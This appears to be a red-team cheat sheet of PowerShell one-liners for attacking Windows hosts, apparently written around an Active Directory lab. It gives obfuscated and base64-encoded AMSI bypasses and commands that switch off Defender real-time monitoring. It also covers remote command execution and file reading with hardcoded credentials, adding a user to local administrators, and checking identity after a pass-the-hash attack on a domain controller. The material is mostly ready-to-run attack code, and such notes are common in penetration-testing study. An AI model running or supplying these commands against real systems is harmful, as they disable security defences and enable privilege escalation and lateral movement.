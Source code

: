 # Miscellaneous Notes
---
## Bypass AMSI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
powershell set-MpPreference -DisableAutoExclusions $true
```

## Create PowerShell credentials and execute commands
```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CORP\john", $pass)

# Enter PSSession
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred

# New-PSSession


# Invoke-command for command injection
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {whoami}
```

## Adding User to local administrator group
```powershell
net localgroup administrators user /add
```

## Running commands in a specific user context in PowerShell
```powershell
powershell.exe -c "$user='WORKGROUP\John'; $pass='password123'; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\John\Desktop\secret.txt } -ComputerName Server123 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```


## Command to check whoami after pass-the-hash attack
Send whoami query to root dc domain of the forest
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Turn off Windows firewall
<img src="./assets/disable-firewall.png" alt="Disable Firewall" />
